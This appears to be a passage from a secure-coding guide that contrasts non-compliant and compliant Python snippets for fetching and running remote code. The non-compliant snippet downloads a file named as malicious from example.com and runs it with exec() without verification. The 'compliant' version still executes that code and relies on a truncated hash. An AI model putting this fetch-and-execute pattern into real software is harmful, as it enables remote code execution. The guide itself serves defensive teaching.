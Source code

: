 





##### ✅ compliance 


{% highlight php %}
import requests
import ast

# Fetch and evaluate code from an untrusted source
untrusted_code = requests.get('http://example.com/untrusted_code.py').text
ast.parse(untrusted_code)
{% endhighlight %}








##   Download of Code Without Integrity Check

##### 🐞 non-compliance


{% highlight php %}
import requests

# Download code without integrity check
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Execute the downloaded code
exec(code)
{% endhighlight %}






##### ✅ compliance 


{% highlight php %}
import requests
import hashlib

# Download code with integrity check
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Verify code integrity
expected_hash = '4a2d8f37ac...'
calculated_hash = hashlib.sha256(code.encode()).hexdigest()
if calculated_hash == expected_hash:
    exec(code)
else:
    print("Integrity check failed. Code execution aborted.")
{% endhighlight %}
